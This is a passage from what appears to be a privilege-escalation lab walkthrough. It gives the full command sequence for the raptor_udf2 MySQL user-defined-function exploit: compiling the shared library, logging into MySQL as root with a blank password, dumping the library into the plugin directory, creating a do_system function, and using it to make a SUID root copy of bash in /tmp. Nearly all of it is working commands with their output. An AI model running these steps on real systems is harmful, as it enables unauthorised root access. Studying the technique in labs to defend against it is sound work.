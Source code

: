 - Compile the `raptor_udf2.c` exploit code using the following commands:

    ```bash
    user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
    user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    ```

- Connect to the MySQL service as the root user with a blank password:

    ```bash
    user@debian:~/tools/mysql-udf$ mysql -u root
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 35
    Server version: 5.1.73-1+deb6u1 (Debian)

    Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql>
    ```

- Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

    ```bash
    mysql> use mysql;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> create table foo(line blob);
    Query OK, 0 rows affected (0.01 sec)

    mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    Query OK, 1 row affected (0.00 sec)

    mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    Query OK, 1 row affected (0.00 sec)

    mysql> create function do_system returns integer soname 'raptor_udf2.so';
    Query OK, 0 rows affected (0.00 sec)
    ```

- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

    ```bash
    mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    +------------------------------------------------------------------+
    | do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
    +------------------------------------------------------------------+
    |                                                                0 |
    +------------------------------------------------------------------+
    1 row in set (0.01 sec)
    ```
